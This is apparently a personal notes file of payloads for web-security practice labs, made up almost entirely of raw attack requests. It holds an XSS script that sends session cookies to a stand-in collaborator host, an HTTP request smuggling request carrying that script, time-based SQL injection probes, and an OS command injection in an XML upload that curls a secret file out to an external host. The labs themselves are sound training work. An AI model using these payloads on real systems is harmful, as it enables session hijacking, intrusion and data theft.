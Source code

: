 # Extras  


## 1 - 1  

```
a"/><script>document.location='http://COLABORATOR.com/?abc='+document.cookie;</script>
```

>HTTP request smuggling + XSS + useragent blog comment 

```
POST / HTTP/1.1
Host: TARGET.net
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: Ceop4Tck
Content-Length: 795
Connection: keep-alive

1a
mug9q=x&find=fuzz2&8p7m4=x
0

GET /post?postId=3 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?app='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES

x=1
```

## 1 - 2  

>SQL advance search  injection - fail  

>***not***

```
GET /search_advanced?find='&sortBy=&writer= HTTP/2
```  

```
GET /search_advanced?find='+--+comment&sortBy=DATE&writer= HTTP/2
```

```
GET /search_advanced?find=';SELECT CASE WHEN (1=1) THEN pg_sleep(20) ELSE pg_sleep(0) END--&sortBy=DATE&writer= HTTP/2
```

## 2 - 3  

>Unknown ????  

-----

## 2 - 1  

>password refresh reset  

```
/refreshpassword?temp-forgot-password-token=DdwYXbFEN8ncNktdx2y0OjAKgzghNVoa
```  

## 2 - 2  

>changeEmail js  

```			   
HTTP/2 302 Found
Location: /myaccount
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 173

{
  "username": "carlos",
  "email": "attacker@exploit-0a8a003603011b95c11d5cda01420001.exploit-server.net",
  "apikey": "ZrObR96W6DppZKNGphkBHWMMAtZBZC5Y",
  "roleid": 47
}
```

## 2 - 3  

>XML + OS Command injection  

```
------WebKitFormBoundary 

Content-Disposition: form-data; name="user-import-file"; filename="exam77.xml"
Content-Type: text/xml

<?xml version="1.0" encoding="UTF-8"?>
<users>
    <user>
        <username>Jacky22</username>
        <email>james22@exploit-123.exploit-server.net||$(curl $(cat /home/carlos/secret).COLLABORATOR.com)||</email>
    </user>
</users>

------WebKitFormBoundary
```

>solution  

